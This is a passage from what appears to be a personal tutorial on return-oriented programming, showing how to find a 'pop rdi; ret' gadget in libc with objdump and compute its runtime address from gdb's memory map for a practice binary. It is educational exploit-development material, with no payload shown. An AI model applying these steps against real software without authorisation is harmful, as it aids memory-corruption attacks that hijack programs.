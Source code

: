 As you can see, the argument is loaded to `rdi`. In linux
the first argument goes to `rdi`, the second to `rsi`
and the third to `rdx` (for more details check 
[here](../../assembly/stack.md/#caviats)).

Since we only control the values on the stack, a good
idea is to put the desired value for `rdi` in the stack
and `pop` it to `rdi`.

We can look for a gadget that can do it for us in `libc`.
With `ldd rip_read` we can get the `libc` path, and them
use
`objdump -D -M intel /lib/x86_64-linux-gnu/libc.so.6 | grep -B 1 ret | grep -A 1 "pop.*rdi"`:

```
  1729fd:	5f                   	pop    rdi
  1729fe:	c3                   	ret    
```

We can them catch a break in `rip_read` in `gdb` to see
where `libc` is loaded (with `info proc map`) and
them add it to the offset of `pop rdi`:

```
(gdb) info proc map
process 11292
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x555555554000     0x555555555000     0x1000        0x0 /mnt/felipe/uff/inmetro/hacking_log/binary_exploitation/rop/second/rip_read
      0x555555754000     0x555555755000     0x1000        0x0 /mnt/felipe/uff/inmetro/hacking_log/binary_exploitation/rop/second/rip_read
      0x555555755000     0x555555756000     0x1000     0x1000 /mnt/felipe/uff/inmetro/hacking_log/binary_exploitation/rop/second/rip_read
      0x7ffff7a3a000     0x7ffff7bcf000   0x195000        0x0 /lib/x86_64-linux-gnu/libc-2.24.so
      0x7ffff7bcf000     0x7ffff7dcf000   0x200000   0x195000 /lib/x86_64-linux-gnu/libc-2.24.so
      0x7ffff7dcf000     0x7ffff7dd3000     0x4000   0x195000 /lib/x86_64-linux-gnu/libc-2.24.so
      0x7ffff7dd3000     0x7ffff7dd5000     0x2000   0x199000 /lib/x86_64-linux-gnu/libc-2.24.so
      0x7ffff7dd5000     0x7ffff7dd9000     0x4000        0x0 
      0x7ffff7dd9000     0x7ffff7dfc000    0x23000        0x0 /lib/x86_64-linux-gnu/ld-2.24.so
      0x7ffff7fd7000     0x7ffff7fd9000     0x2000        0x0 
      0x7ffff7ff8000     0x7ffff7ffa000     0x2000        0x0 [vvar]
      0x7ffff7ffa000     0x7ffff7ffc000     0x2000        0x0 [vdso]
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x23000 /lib/x86_64-linux-gnu/ld-2.24.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x24000 /lib/x86_64-linux-gnu/ld-2.24.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0 
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
```

As we can see `/lib/x86_64-linux-gnu/libc-2.24.so` is
loaded to `0x7ffff7a3a000`. By adding it to `pop rdi`
offset (`1729fd`) we get `0x7ffff7bac9fd`.
